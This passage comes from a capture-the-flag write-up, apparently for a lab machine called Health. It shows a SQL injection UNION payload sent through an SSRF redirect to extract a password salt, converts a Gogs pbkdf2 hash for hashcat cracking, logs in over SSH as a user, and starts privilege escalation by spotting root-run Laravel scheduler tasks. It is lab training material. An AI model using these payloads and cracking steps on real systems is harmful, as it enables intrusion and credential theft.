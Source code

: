 ```bash
sudo python3 redirect.py 80 "http://localhost:3000/api/v1/users/search?q=')/**/UNION/**/ALL/**/SELECT/**/1,10,(SELECT/**/salt/**/from/**/user),4,12,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--"
```
salt:sO3XIbeW14

According to the source code, the hash function is pbkdf2

### Cracking the hash
Before cracking the hash we need to convert the hash to hashcat format using a tool called gogstohash.py Tool Link [https://github.com/shinris3n/GogsToHashcat](https://github.com/shinris3n/GogsToHashcat)

```bash

python3 GogsToHashcat.py sO3XIbeW14 66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37cd -o hashs.txt
sha256:10000:c08zWEliZVcxNA==:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jfN
Hash file successfully written as: hashs.txt

cat hashs.txt 
sha256:10000:c08zWEliZVcxNA==:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jfN
```

Crack it using hashcat
## SSH as susanne
```bash
susanne@health:~$ id && whoami
uid=1000(susanne) gid=1000(susanne) groups=1000(susanne)
susanne
susanne@health:~$ cat user.txt 
8f2********************180
```

## Privilege escalation

Using pspy64 to enumerate background tasks 
```bash
susanne@health:/dev/shm$ ./pspy64 | grep 'UID=0'
2022/12/29 11:04:01 CMD: UID=0    PID=24625  | /bin/bash -c cd /var/www/html && php artisan schedule:run >> /dev/null 2>&1 
2022/12/29 11:04:06 CMD: UID=0    PID=24632  | mysql laravel --execute TRUNCATE tasks 
```
we can see php Artisan command run a sheduled task and mysql will truncating all data from tasks table both are running as root

>Laravel's command scheduler offers a fresh approach to managing scheduled tasks on your server. The scheduler allows you to fluently and expressively define your command schedule within your Laravel application itself. When using the scheduler, only a single cron entry is needed on your server. Your task schedule is defined in the app/Console/Kernel.php file's schedule method
>>Laravel scheduler does exactly the same job than Linux cron, by checking if a task cronned time (in minutes) is exactly the same of current time.
